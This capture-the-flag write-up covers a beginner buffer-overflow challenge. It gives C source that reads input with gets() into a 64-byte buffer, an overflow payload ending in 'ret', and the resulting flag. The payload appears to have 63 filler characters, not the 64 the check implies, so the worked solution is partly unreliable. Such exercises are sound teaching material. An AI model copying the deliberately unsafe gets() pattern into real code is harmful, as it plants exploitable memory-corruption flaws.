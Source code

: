 # Katipwnan Buffer Bomber

## Problem
### chal.c contents:
```C
#include <stdio.h>

void get_flag() {
    FILE *f = fopen("./flag.txt", "r");
    char buf[200];
    fgets(buf, 200, f);
    printf("%s\n", buf);
    fclose(f);

    return;
}

int main(void) {
    setbuf(stdout, NULL);

    puts("Bomb is 64 in size and 'ret' is the ending command to fire, also this is not valorant...");
    printf("Plant the spike: ");
    char buf[64];
    gets(buf);

    if (buf[64] == 'r' && buf[65] == 'e' && buf[66] == 't') {
        printf("All right!\nHere is your flag: ");
        get_flag();
    } else {
        printf("Try again!\n");
    }
    
    return 0;
}
```
## Solution
The goal is to bypass the program by setting the values at the addresses after the bomb's location to ret. To do so, we need to fill the entire bomb, then the extra characters will the values set to the addresses after the bomb. So I inputed this in the program to get the flag:

```txt
012345678901234567890123456789012345678901234567890123456789012ret
```

Which outputs:

```txt
All right!
Here is your flag: CITU{k4tipwn4n_0v3rfl0w_b0mb_4ctiv4t3d_BO000000M!!}
```